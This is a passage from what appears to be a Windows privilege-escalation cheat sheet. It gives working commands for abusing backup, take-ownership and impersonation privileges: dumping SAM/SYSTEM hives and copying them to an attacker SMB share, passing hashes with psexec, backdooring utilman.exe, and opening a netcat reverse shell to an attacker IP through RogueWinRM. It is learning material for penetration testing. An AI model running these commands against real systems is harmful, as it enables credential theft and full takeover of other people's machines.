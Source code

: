 ##### SeBackup / SeRestore

Those privileges allows users from the Backup Operators group to read and write to any file on the system ignoring DACL, so those users can perform backups without full administrative privileges. One way of abusing it is by copying the SAM and SYSTEM registry hives and extract the local administrator's password hash.

**Open CMD as administrator**

`reg save hklm\system C:\Users\<username>\System.hive` and `reg save hklm\sam C:\Users\<username>\sam.hive` - Backup the SAM and SYSTEM hashes.

**Copy the files to your machine, for example by using Impacket's SMB**

On the attacker machine:
`mkdir share` - Create a directory to share.
`python3.9 <smbserver.py file path> -smb2support -username <username> -password <password> public share` - Create a share named public pointing to the share directory.

`copy <sam.hive backuped file path> \\<attacker ip>\public\` and `copy <system.hive backuped file path> \\<attacker ip>\public\` Copy the files to the share, on the victim machine.

`python3.9 secretsdump.py -sam sam.hive -system system.hive` - Use impacket to retrieve the users' password hashes.
`python3.9 <psexec.py file path> -hashes <administrator's hash> administrator@<target ip address>` - Finally perform a Pass-the-Hash attack to gain access to the machine with SYSTEM privileges.

##### SeTakeOwnership

This privilege allows the user to take ownership of any object on the system, including files and registry keys.
We'll abuse utilman.exe which is a built-in application that runs with SYSTEM privileges to provide ease of access services in the lock screen.

`takeown /f C:\Windows\System32\utilman.exe` - Take ownership of the file.
`icacls C:\Windows\System32\utilman.exe /grant <username>:F` - Assign yourself full privileges to the file.
`copy cmd.exe utilman.exe` - Replace utilman.exe with a copy of cmd.exe.

Now lock your screen and click on Ease of Access, it'll open CMD with SYSTEM privileges.

##### SeImpersonate / SeAssignPrimaryToken

Those privileges lets the service to impersonate other users, for example to assign them access with their token to their files (FTP).
You can pass the RogueWinRM exploit to the victim machine and use it since, when a user starts the BITS service its creating a connection to port 5985 with the SYSTEM privileges which is usually the port for WinRM (Which exposes a Powershell console to be used remotely), if WinRM isn't running it's possible to start a fake WinRM service and capture the authentication attempt made by BITS.

`nc -lvp <port>` - Start a listener on the attacker machine.
`<RogueWinRM.exe path> -p <nc64.exe path> -a "-e cmd.exe <attacker ip> <port>"` - Trigger the exploit with the Netcat binary and the arguments following `-a`.

##### Unpatched software

`wmic product get name,version,vendor` - List information for installed programs (Doesn't always list all programs).
